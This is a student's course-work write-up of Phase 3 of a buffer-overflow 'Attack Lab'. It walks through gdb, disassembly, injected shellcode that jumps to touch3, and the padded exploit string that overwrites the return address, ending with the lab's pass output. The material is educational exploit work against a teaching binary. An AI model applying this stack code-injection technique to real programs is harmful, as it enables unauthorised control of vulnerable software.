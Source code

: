 ```yaml
---
category:
  - Course Work
tag:
  - Attack Lab
  - Computer Organization and Architecture
title: "Attack Lab: Phase 3"
typora-root-url: ../../../../.vuepress/public
---
```


###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) info registers rsp
rsp            0x55668cc0       0x55668cc0
```

###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401c78 <touch3>:
...
```

###### Write File `phase-3-inject.s`

```assembly
movq $0x55668cc8, %rdi
pushq $0x0000000000401c78
ret
```

###### Run

```bash
gcc -c phase-3-inject.s
objdump --disassemble phase-3-inject.o > phase-3-inject.asm
```

###### Read File `phase-3-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0:	48 c7 c7 c8 8c 66 55 	mov    $0x55668cc8,%rdi
   7:	68 78 1c 40 00       	pushq  $0x401c78
   c:	c3                   	retq
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Convert Cookie to String

The string should end with a `\0`.

```
33 61 39 61 36 63 32 66 00
```

###### Write File `phase-3.txt`

Place the string in the parent frame of `getbuf`, that is, `test` stack frames.

```
48 c7 c7 c8 8c 66 55
68 78 1c 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
33 61 39 61 36 63 32 66 00
```

###### Run

```bash
./hex2raw < phase-3.txt > phase-3.in
./ctarget -i phase-3.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch3!: You called touch3("3a9a6c2f")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
